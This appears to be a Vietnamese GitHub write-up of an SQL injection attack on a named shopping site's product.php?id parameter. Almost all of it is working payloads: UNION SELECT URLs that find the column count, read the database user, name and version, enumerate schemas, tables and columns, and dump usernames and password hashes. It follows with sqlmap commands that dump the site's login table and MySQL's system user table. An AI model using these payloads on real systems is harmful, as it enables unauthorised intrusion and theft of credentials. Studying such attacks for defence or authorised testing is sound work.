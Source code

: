 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/fd126029-74d6-4b5d-843e-aa1ef90ca9bd)

![image](https://github.com/user-attachments/assets/1dae9e7c-ede6-497c-bd76-4927cd8affc5)

=> Số cột lớn hoen 1 và bé hơn 50

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

=> Số cột là 30  
## Kiểm tra database, version, user 

**1. User**

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,user(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/9fd803ab-520e-4c15-91c6-311e91b50589)

**2. Database**

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,database(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/ea00b3ed-b953-4291-bde2-d0e5f1020c4d)

**3. Version**

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,version(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/3bfea2e5-184f-46a7-960c-96dcc4c28024)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.tables+where+table_schema='login'`

![image](https://github.com/user-attachments/assets/dd0d9791-c629-4116-a806-beaf2619fa81)

**3. Liệt kê các cột trong bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.columns+where+table_name='users'`

![image](https://github.com/user-attachments/assets/f9de200a-39dc-4de3-9c36-3aaf21127c14)

**4. Trích xuất dữ liệu bất kì**
`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

